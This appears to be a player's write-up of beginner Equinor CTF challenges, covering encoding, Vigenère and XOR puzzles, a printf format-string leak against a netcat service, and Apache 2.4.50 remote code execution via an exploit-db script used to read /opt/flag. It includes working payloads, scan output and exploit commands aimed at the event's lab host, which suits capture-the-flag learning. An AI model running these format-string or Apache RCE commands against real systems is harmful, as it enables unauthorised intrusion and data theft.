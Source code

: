 # Beginner challenges

## Sanity

This one gives you the flag just for connecting.\
Sometimes it's nice just to be appreciated 😊

````
nc io.ept.gg 30020
Welcome to Equinor CTF! Enter to get your sanity flag!
>
EPT{let_the_games_begin}
````


## Encoding or encryption

Task:
```
Is encoding and encryption the same thing?

55 6b 4e 48 65 32 6f 7a 58 32 4e 6f 5a 31 39 6d 4d 48 6f 7a 58 7a 4e 68 63 44 42 78 64 6d 46 30 58 7a 46 68 58 32 77 77 61 47 56 66 4d 32 46 77 5a 57 78 6e 64 6a 42 68 66 51 3d 3d
```
Using the ever handy Cyberchef:
String from hex, looks base64 enocded(ends in ==)\
A string with RCG{ with the hin "is decoding the same as encoding" like ROT13\
==> `EPT{w3_put_s0m3_3nc0ding_1n_y0ur_3ncryti0n}`

## Baby0

File baby0 in Taskfiles.

Task:
`Magical strings are great`

From a linux box run the command `strings| grep EPT` to get:\
`EPT{strings_are_great!}`

Strings command will extract any string in a binary file and print it. We know how the flag looks, and I was too lazy to use the full regex.

## Cipher salad with vinaigrette is so tasty

Task is picture of Mr. Vignère and a file: vignere-cipher.txt in Taskfiles.

The picture of Mr. Vignère, the cipher.txt file contains years and wordspacing clearly looking like the  wikipedia entry \
for the Vignère cipher. [https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher]  \
Rather large ciphertext that ends with the string:  `RVD{zgzlvwzw_In_E_cml_Hw_Tht}`

Tries the vignere solver on : [https://www.boxentriq.com/code-breaking/vigenere-cipher]  ,and autosolve gets pretty close.\
Tries several times with larger and larger keysizes and ends up with:\
`thisisaverystrongkey`

Back to Cyberchef to translate the entire ciphertext with a vignère decode module, inserting the key from above and we get\
`congratulations you have found the flag: EPT{vigenere_Is_A_lot_Of_Fun}`

## I think we have a roof leak

Task:
``` 
The printf function in expects one or more parameters. In the man page its defined as: int printf(const char *format, ...);

If the first (and only) argument is a pointer string without any formating options it just prints the string. But what happens if we only have one argument, that is user controlled?

The man page can be a good place to start.

nc io.ept.gg 30021
```
Taskfiles: pwn1.c and pwn1

Connecting to the instance and it responds with whatever we put into it.\
Googling for any sort of help gets a whole bunch of stack formatting things.\

Basically; give an input with a format string like `%2s` will do magic stuff.\
Shamelessly copying from other CTF writeups indicates that a string "%<number>$s" prints data from the stack.\
Trying a for-loop on the compiled program:\ 

````
for i in ` seq 1 19 `; do echo $i; echo \%${i}\$s | ./pwn1;done
output:
...
6
Enter some text:
(null)
7
Enter some text:
EPT{REDACTED}
8
Enter some text:
Segmentation fault
...
````
Reading the sourcecode provided we see the line `char flag[]  = "EPT{REDACTED}";` so we're getting somewhere

Tries to give the instance the string `'%7$s'`:
```
echo \%7\$s |nc io.ept.gg 30021
Enter some text:
EPT{w00tw00t_you_found_m3}
```

## AH-64
Task:
```
 Super Six One, go to UHF secure. I've got some bad news. We see vulnerabilites like it is 2001. Tango located in /opt/flag

Site: AH-64(links to http://io.ept.gg:30071/ )
```

AH-64 is the Apache helicopter, and we get a link, so clearly an Apache vulnerability.\
Some aimless googling for apache vulnerabilites and a kali linux instance provides the tool `nikto` to scan websites

```
└─# nikto -host io.ept.gg -port 30071
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          176.34.167.207
+ Target Hostname:    io.ept.gg
+ Target Port:        30071
+ Start Time:         2021-10-30 10:41:46 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.50 (Unix)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: POST, OPTIONS, HEAD, GET, TRACE
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
```

Since we need to find print the output of the file `/opt/flag` on the server we need to run some code, so more googling\
and a `searchsploit apache` looking for Remote Code Execution gives us

```
┌──(root💀cf89b1317ce8)-[/]
└─# searchsploit -p 50406
  Exploit: Apache HTTP Server 2.4.50 - Path Traversal & Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50406
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50406.sh
File Type: ASCII text
```
Running the shell to find out what it needs is a targets.txt file with the target and a "command" so...
```
┌──(root💀cf89b1317ce8)-[/]
└─# cat targets.txt
io.ept.gg:30071

┌──(root💀cf89b1317ce8)-[/]
└─# /usr/share/exploitdb/exploits/multiple/webapps/50406.sh targets.txt /opt/flag
io.ept.gg:30071
EPT{we've_got_a_blackhawk_down_we've_got_a_blackhawk_down_i_mean_apache}

```

## never-gonna-exclude-you

Hint: are we eXclusive-OR?\

Taskfile: xor-cipher.txt

Trying the trusty cyberchef gives little results for guessing any xor'ing.\
Googling CTFs and XOR provides the tool `xortool`\
Jumping into a linux instance and running the suggested command on the ciphertext
```
[root@686b9ce9d4ce xor]# yum search xortool
Last metadata expiration check: 0:19:47 ago on Sat Oct 30 11:44:58 2021.
============================================ Name Exactly Matched: xortool =============================================
xortool.noarch : Tool for XOR cipher analysis

[root@686b9ce9d4ce xor]# xortool -x -c ' ' xor-cipher.txt
The most probable key lengths:
   1:   12.2%
   8:   9.7%
  11:   24.1%
  16:   6.6%
  18:   6.4%
  20:   5.7%
  22:   14.1%
  33:   9.1%
  44:   6.9%
  55:   5.4%
Key-length can be 4*n
1 possible key(s) of length 11:
'rick astley
Found 1 plaintexts with 95%+ valid characters
See files filename-key.csv, filename-char_used-perc_valid.csv
```
xortool outputted some files as it says and one contained the plaintext. I'll save you the rolling, but the end of the\
file said `RVBUe3gwci0xNS1mdW59` that Cyberchef easily suggest Base64 decoding to  `EPT{x0r-15-fun}`